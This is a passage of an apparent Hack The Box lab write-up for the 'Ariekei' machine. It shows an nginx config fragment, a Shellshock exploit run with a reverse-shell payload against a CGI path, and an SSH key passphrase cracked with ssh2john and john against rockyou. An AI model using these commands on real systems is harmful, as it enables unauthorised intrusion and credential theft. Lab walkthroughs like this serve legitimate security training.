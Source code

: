 ```php
                proxy_force_ranges on;
                proxy_set_header        Host            $host;
                proxy_set_header        X-Real-IP       $remote_addr;
                proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
                add_header X-Ariekei-WAF "beehive.ariekei.htb";

        }

        error_page 403 /403.html;
        location = /403.html {
            root   html;
        }

    }
```

From this we can see that the ip is 172.24.0.2.

We can also see that the beehive.ariekei.htb hostname is being forwared from blog-test contatiner.

We will now try to use shellshock again to exploit the system. We find the exploit on exploit-db(https://www.exploit-db.com/exploits/34900/).

Running the exploit gives a shell as www-data!
```bash
root@ezra:/tmp# python shellshock.py  payload=reverse rhost=172.24.0.2 lhost=172.24.0.253 lport=1234 pages=/cgi-bin/stats
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/stats
[!] Successfully exploited
[!] Incoming connection from 172.24.0.1
172.24.0.1> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then navigate to the ssh directory and we find another ssh key.

We copy this to our box and try to ssh, it seems its encrypted somehow.

We use ssh2john to try and decrypt the password from it.

```bash
kali@kali:~/boxes/ariekei$ /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
kali@kali:~/boxes/ariekei$ ls
exploit.py  hack.mvg  id_rsa  id_rsa_hash  nmap  notes
kali@kali:~/boxes/ariekei$ sudo john id_rsa_hash -w=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
purple1          (id_rsa)
1g 0:00:00:07 DONE (2020-06-14 05:11) 0.1394g/s 2000Kp/s 2000Kc/s 2000KC/sa6_123..*7¡Vamos!
Session completed
```
